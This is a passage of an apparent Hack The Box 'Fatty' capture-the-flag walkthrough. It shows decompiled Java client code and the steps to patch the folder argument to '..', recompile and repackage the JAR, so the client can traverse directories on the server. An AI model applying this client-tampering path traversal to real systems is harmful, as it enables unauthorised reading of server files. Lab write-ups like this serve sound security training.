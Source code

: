 ```java
public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {
      
      }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
```
* The function takes in one argument for the folder name and then sends the data to the server using the sendandrecv() call. 
* The file `fatty-client-new.jar/htb/fatty/client/gui/ClientGuiTest.java` sets the folder option.
```java
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
```
* Replace the `configs` folder name with 
```java
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```
* Compile the ClientGuiTest.java
```powershell
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```
* This generates several class files. 
```powershell
mkdir raw
cp fatty-client-new.jar raw\fatty-client-new-2.jar
```
* Decompress the `fatty-client-new-2.jar`, Overwrite any other classes
```powershell
mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```
* Build the new JAR file 
```powershell
jar -cmf META-INF\MANIFEST.MF traverse.jar .
```
* Login to the File Browser
* Look at start.sh
![[Pasted image 20231020105417.png]]
* Notice it is running in a docker container. 